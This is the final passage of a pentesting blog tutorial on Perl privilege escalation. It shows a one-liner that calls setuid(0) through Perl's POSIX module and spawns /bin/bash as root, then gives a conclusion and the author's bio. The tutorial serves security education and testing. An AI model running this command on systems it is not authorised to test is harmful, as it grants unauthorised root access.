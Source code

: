 ```
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'  
id
```

![](https://i0.wp.com/1.bp.blogspot.com/-z6d_Knx3T28/Xd1LG2btaiI/AAAAAAAAhnw/s_CrRCVybYI5E8w7yYZ0uTjB-CCLY_6IACLcBGAsYHQ/s1600/14.png?w=687&ssl=1)

**_Conclusion:_** The main influence of this article is to use “Perl” command for privilege escalation that’s why we have just covered the basic operation that can be achieved by the use of this command.

**Author**: Komal Singh is a Cyber Security Researcher and Technical Content Writer, she is completely enthusiastic pentester and Security Analyst at Ignite Technologies. Contact [**Here**](https://www.linkedin.com/in/komal-rajput-26b783131/)

The post [Linux for Pentester: Perl Privilege Escalation](https://www.hackingarticles.in/linux-for-pentester-perl-privilege-escalation/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/2XOWdZT